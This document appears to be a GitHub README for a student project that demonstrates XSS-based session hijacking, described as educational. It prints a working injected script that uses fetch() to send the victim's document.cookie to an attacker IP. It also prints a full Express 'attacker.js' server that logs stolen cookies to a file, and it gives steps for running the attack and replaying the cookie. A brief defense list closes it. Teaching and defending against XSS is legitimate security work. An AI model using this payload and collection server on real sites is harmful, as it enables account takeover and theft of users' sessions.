





# 🚀 XSS-Based Session Hijacking Attack (Automatic Cookie Theft)
This project demonstrates how an **XSS (Cross-Site Scripting) attack** can be used to **automatically steal a victim’s session cookie** as soon as they log in, allowing the attacker to hijack the session.

---

## 📌 Overview
### Components of the Attack:
✅ **A vulnerable login page (`index.html`)** where the victim logs in.  
✅ **A JavaScript-based XSS payload** that runs automatically when the victim logs in.  
✅ **An attacker server (`attacker.js`)** that captures and logs stolen session cookies.  
✅ **A Node.js backend (`server.js`)** running the web application.  

---

## 📌 How the Attack Works

### 1️⃣ **Step 1: Victim Logs In**
- The victim visits the vulnerable website:
http://localhost:3000

yaml
Copy
Edit
- They enter their **username & password** and click **Login**.

📌 **Screenshot:**  


---

### 2️⃣ **Step 2: XSS Payload Executes Automatically**
- The victim does **not** see anything suspicious.
- In the background, the login page **automatically runs a hidden script** that sends their **session cookie** to the attacker’s server.

📌 **Screenshot:**  


---

### 3️⃣ **Step 3: Attacker Receives the Stolen Cookie**
- The attacker's server (`attacker.js`) **logs the victim’s session cookie** immediately.
- The stolen cookie is also **saved to `stolen_cookies.txt`**.

📌 **Screenshot:**  


---

### 4️⃣ **Step 4: Attacker Uses the Stolen Cookie**
- The attacker injects the **stolen session cookie** into their browser using **EditThisCookie** or Developer Tools (`F12`).

📌 **Screenshot:**  


---

### 5️⃣ **Step 5: Attacker Successfully Hijacks the Session**
- The attacker **refreshes the page** and is now logged in **as the victim without entering a password**.

📌 **Screenshot:**  


---

## 📌 How to Run This Attack Locally

### 1️⃣ **Install Dependencies**
```sh
npm install express
###2️⃣ **Start the Vulnerable Web Server**

node server.js
The web app will start on:
http://localhost:3000

---

###3️⃣ **Start the Attacker’s Server**

node attacker.js

The attacker server will listen for stolen cookies at:
http://192.168.X.X:4000

---

### 📌 The XSS Payload (Auto Cookie Theft)
This script is injected into the vulnerable login page (index.html) so that when the victim logs in, their cookie is stolen automatically.

---

### 🔹 Inside index.html (before </body>)

<script>
document.getElementById("loginForm").addEventListener("submit", function() {
    fetch("http://192.168.64.2:4000/steal?cookie=" + document.cookie);
});
</script>
🔹 Replace 192.168.64.2 with your attacker's IP (run ip a to check).

### ✅ This ensures that every login automatically sends the session cookie to the attacker! 🎯

---

📌 Attacker’s Server (attacker.js)
This script captures and logs the stolen session cookies.

###🔹 Inside attacker.js

const express = require('express');
const fs = require('fs');
const app = express();

app.get('/steal', (req, res) => {
    const stolenCookie = req.query.cookie;

    if (stolenCookie) {
        console.log("🚨 Stolen Cookie:", stolenCookie);
        fs.appendFileSync('stolen_cookies.txt', `${new Date()} - ${stolenCookie}\n`);
        res.send('Cookie stolen and logged!');
    } else {
        res.send('No cookie received.');
    }
});

app.listen(4000, '0.0.0.0', () => {
    console.log('🚀 Attacker server running on http://0.0.0.0:4000');
});

---

#📌 How to Defend Against This Attack
To prevent XSS-based session hijacking:

1️⃣ Use HttpOnly cookies so JavaScript cannot access them.
2️⃣ Enable Secure and SameSite flags to limit exposure.
3️⃣ Sanitize all user input to block XSS injection.
4️⃣ Implement Content Security Policy (CSP) to block unauthorized scripts.
5️⃣ Use Multi-Factor Authentication (MFA) to protect accounts.

--------------------------------------------
```
#📌 CREDITS

💻 Developed by: Md Tanvir Rana(AG2409), Margarita Nyman(AG2668)

📅 Date: (2025-03-16)

🛡️ For educational and ethical hacking purposes only.

